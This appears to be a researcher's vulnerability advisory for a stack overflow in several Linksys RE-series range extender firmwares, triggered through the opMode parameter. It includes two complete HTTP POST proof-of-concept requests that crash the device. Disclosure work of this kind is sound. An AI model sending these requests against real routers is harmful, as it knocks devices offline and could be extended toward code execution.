




# Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500


## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `algDisable` function, `opMode` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `opMode` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"></div>

In `algDisable` function.

`mod_form.so->sysctl`

<div  align="center"></div>

In `sysctl` binary:

Eventually, the initial input will be directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

Vulnerability trigger steps:

* set `opMode`=**aaaaa......**, in (`setOpMode`)
* Trigger the vulnerability, in (`algDisable`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `opMode` as **aaaaa......** , and the router will excute it,such as:

```http
POST /goform/setOpMode HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

opMode=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&natEnbl=&tcp_timeout=&udp_timeout
```

Trigger the vulnerability, in (`algDisable`)

```http
POST /goform/algDisable HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

pop3=&smtp=&rtp=&rtsp&mms=&sip=&h323=&ftp&tftp=&telnet=&msn=&ipsec=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>

